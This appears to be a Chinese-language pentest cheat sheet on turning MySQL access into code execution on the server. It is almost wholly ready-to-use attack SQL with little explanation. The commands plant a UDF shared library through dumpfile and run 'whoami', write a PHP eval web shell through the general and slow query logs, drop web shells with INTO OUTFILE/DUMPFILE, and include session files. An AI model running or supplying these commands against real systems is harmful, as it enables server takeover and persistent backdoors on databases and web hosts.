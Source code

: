 ## UDF

```sql
show variables like '%plugin%';
# 默认为/usr/lib/mysql/plugin/
select unhex('payloads') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
create function cyy_udf_eval returns string soname 'mysqludf.so';
select cyy_udf_eval('whoami');
```

## mysql日志

> 需要的前置条件：知道web服务器发布路径

```sql
set global general_log='on';
set global  general_log_file ="D:/phpStudy/PHPTutorial/WWW/log1n.php";
select "<?php eval($_POST['chi1ema'])?>";
set global general_log='off';
show global variables like "%genera%";
# 慢查询日志
set global slow_query_log=1;
set global slow_query_log_file='dir\filename';
select "<?php @eval($_POST['chi1ema'])?>" or sleep(11);
show global variables like '%long_query_time%';

```

## webshell写入

> 需要：web服务器发布路径，secure_file_priv不等于null（my.ini my.cnf）

```sql
SHOW VARIABLES LIKE "secure_file_priv";
select '一句话木马' into outfile "/www/asda";
select '一句话木马' into dumpfile "/www/asda";
```

## 包含SESSION文件

```
tmp/sess_Cookie里的sessionID
```

